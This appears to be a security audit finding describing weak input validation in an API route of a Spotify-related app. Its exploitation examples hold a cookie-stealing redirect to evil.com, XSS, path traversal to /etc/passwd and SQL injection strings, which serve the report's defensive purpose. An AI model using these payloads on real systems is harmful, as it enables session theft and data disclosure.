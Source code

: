 # 🟡 SEC-010: Lack of Robust Input Validation

## 📋 Basic Information

| Field | Value |
|-------|-------|
| **Vulnerability ID** | SEC-010 |
| **Severity** | Medium |
| **CVSS Score** | 5.3 |
| **Component** | API |
| **Location** | `app/api/config/route.ts:27-43` |
| **Discovery Date** | 10/04/2025 |
| **Status** | Open |

## 🎯 Description

Input validation is basic and does not include format, length, or special character checks for URLs and Spotify IDs. This inadequate validation allows injection of malicious data, path traversal attacks, and potential data corruption.

### Potential Impact

- Injection of malicious data
- Path traversal attacks
- Data corruption
- XSS through insufficient input sanitization
- API abuse through malformed inputs

### Exploitation Examples

```javascript
// Malicious payload injection
const maliciousPayload = {
  clientId: "valid_client_id",
  clientSecret: "valid_secret",
  redirectUri: "https://evil.com/steal?data=" + encodeURIComponent(document.cookie),
  // OR
  redirectUri: "javascript:alert('XSS')",
  // OR
  redirectUri: "../../../etc/passwd"
};

// Path traversal attempt
fetch('/api/validate/track/../../../etc/passwd', {
  method: 'GET'
});

// SQL injection through malformed IDs
const maliciousId = "1' OR '1'='1";
fetch(`/api/spotify/tracks/${maliciousId}`);

// XSS through user input
const xssPayload = "<script>stealData()</script>";
fetch('/api/config', {
  method: 'POST',
  body: JSON.stringify({ name: xssPayload })
});
```